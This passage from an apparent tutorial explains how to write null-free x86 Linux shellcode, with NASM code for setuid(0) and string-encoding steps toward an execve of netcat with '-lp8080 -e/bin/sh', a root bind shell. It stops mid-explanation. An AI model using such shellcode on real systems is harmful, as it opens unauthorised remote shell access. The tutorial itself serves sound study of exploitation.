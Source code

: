 As you probably know the shellcode shouldn't contain null bytes. The null byte is used for string terminaton and you'd probably want to inject
your shellcode in a buffer.

First lets write the *setuid*{: style="color: LightGreen"} syscall. Its system call number is 23 (0x17 in hex). It takes as an argument
*uid*{: style="color: LightGreen"} = 0, stored in *ebx*{: style="color: LightGreen"} register, but since we aren't allowed to use 
null bytes in the code we'll make use of the xor instruction.

```nasm
section .text  ; defines code section

global _start  

_start:         ; entry point
  xor ebx, ebx      ; XOR ebx with itself. The result is 0 and stored in ebx.
  push byte 0x17
  pop eax           ; Load number 0x17 (setuid) in eax
  int 0x80          ; call setuid(0)
```

For the *execve*{: style="color: LightGreen"} system call the arguments must be pushed onto the stack and their addresses loaded in the
registers.   
*ebx*{: style="color: LightGreen"} -> *filename*{: style="color: LightGreen"} = '/bin/nc'   
*ecx*{: style="color: LightGreen"} -> *argv[]*{: style="color: LightGreen"} = ['/bin/nc', '-lp8080', '-e/bin/sh']  
*edx*{: style="color: LightGreen"} -> *envp[]*{: style="color: LightGreen"} = 0  

First the strings should be reversed. You could use python for this. Lets take for 
example the first argument *'/bin/nc'*{: style="color: LightSalmon"}

```python
>>> '/bin/nc'[::-1]
'cn/nib/'
```

Then convert them to hex and push by groups of four bytes.  
cn/nib/

```python
>>> 'nib/'.encode('hex')
'6e69622f'
>>> 'cn/'.encode('hex')
'636e2f'
```

ascii: *cn/*{: style="color: LightSalmon"}   -> hex: *0x00636e2f*{: style="color: LightSalmon"} Has a null byte!  
ascii: *nib/*{: style="color: LightSalmon"}  -> hex: *0x6e69622f*{: style="color: LightSalmon"}  

When the string length isn't a multiple of four bytes, there are few ways to avoid adding a null byte. I'll show only two, but
you could check [0day.work](https://0day.work/writing-my-first-shellcode-iptables-p-input-accept/) and see another one that uses
the *shr*{: style="color: LightGreen"} (shift right) instruction.
